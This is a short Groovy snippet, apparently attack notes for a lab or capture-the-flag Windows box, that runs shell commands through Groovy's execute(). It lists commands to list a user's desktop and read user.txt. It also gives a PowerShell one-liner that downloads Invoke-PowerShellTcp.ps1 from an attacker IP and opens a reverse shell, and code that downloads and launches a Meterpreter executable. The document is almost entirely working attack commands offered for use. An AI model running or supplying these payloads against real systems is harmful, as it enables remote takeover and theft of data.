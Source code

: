 
Groovy
; dir
; "cmd.exe /C dir c:\\users\\bruce\\Desktop"

;type
;"cmd.exe /C type c:\\users\\bruce\\Desktop\\user.txt"

; tcp reverse
;"powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.92.19:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.92.19 -Port 4444"

; meterpreter 2 steps: download, start
;"powershell (New-Object System.Net.WebClient).Downloadfile('http://10.10.92.19:8080/meter.exe','meter.exe');"
"Start-Process 'meter.exe'".execute().with{
    def output = new StringWriter()
    def error = new StringWriter()
    //wait for process ended and catch stderr and stdout.
    it.waitForProcessOutput(output, error)
    //check there is no error
    println "error=$error"
    println "output=$output"
    println "code=${it.exitValue()}"
}

